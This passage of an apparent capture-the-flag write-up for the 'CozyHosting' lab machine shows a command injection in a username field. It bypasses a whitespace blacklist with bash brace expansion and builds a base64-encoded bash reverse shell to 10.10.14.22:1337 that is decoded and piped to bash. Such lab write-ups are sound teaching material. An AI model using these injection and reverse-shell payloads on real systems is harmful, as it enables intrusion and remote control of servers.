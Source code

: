 Whitespaces are commonly blacklisted, but, luckily for us, there are a [lot of ways](../../../tl-dr/tl-dr/web/command-injection.md#blacklisted-characters) to bypass this restriction, one of them is [brace expansion](https://www.geeksforgeeks.org/bash-brace-expansion-in-linux-with-examples/) (Figure 9).

```
# Payload 2
host=10.10.14.22&username=;{sleep,2};
```

<figure><img src="../../../.gitbook/assets/cozyhosting_bypass_whitespaces.png" alt=""><figcaption><p>Figure 9: Bypassing whitespace restrictions.</p></figcaption></figure>

We are successful on injecting our `sleep` command, so we now have to create a revershel shell payload. We will need to [encode our payload](../../../tl-dr/tl-dr/web/command-injection.md#encoding) and get rid any "dangerous" characters, such as `+` and `=`, which have their own interpretation within HTTP requests.

```bash
# Encoding the revershe shell code
$ echo 'bash -i >& /dev/tcp/10.10.14.22/1337 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi8xMzM3IDA+JjEK
# Removing the '+' symbols
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMQo=
# Removing the equal sign at the end
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1 ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK
```

Once our encoded payload is ready, we will pipe it for decoding and then to bash, while making sure to not include any whitespaces among the piped commands. With that, we will start a listener, send the request, and catch a reverse shell back (Figure 10).

{% code overflow="wrap" %}
```
# Payload 3
host=10.10.14.22&username=;{echo,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK}|{base64,-d}|bash;
```
{% endcode %}
